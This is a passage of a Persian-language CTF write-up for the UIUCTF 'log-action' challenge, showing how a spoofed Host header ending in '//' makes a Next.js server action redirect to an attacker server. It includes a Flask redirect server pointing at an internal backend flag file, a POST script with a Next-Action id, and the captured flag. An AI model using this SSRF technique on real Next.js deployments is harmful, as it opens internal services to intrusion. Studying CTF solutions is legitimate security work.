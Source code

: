 اونجا بود که فهمیدم مقدار هدر هاست رو دارم اشتباهی میدم  و اون پروتکلشو حذف کردم و `attacker.com` رو تست کردم ولی متاسفانه دیگه به اون ریدایرکت نرسیدم ولی یه سعی دیگه کردم و `//` رو به اخر هدر هاست اضافه کردم و دیدم که بعله به ‍`attacker.com` ریدایرکت شدم


# خوندن فلگ
برای اینکه بتونم فلگ رو بخونم باید به وب سرور خودم ریدارکت میکردم و از اون جا به `http://backend/flag.txt` که backend به ip داکر سرویس backend مپ میشه ریدایرکت میکردم مسیر رو

وب سرور فلسک

```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://backend/flag.txt')

app.run(host="0.0.0.0", port=4000)
```

و برای ریکویست post


```python
import requests


headers = {
    "Host":"attacker-ip:4000//", # the flask server (note to // at the end of host is required)
    "Next-Action":"5cdaa80b9099b9973b11269421a40d52c0e11f31", # the action id of next.js
}
res = requests.post("http://log-action.challenge.uiuc.tf/login", headers=headers, data="{}")

print(res.text)
```

---
??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`uiuctf{close_enough_nextjs_server_actions_welcome_back_php}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)

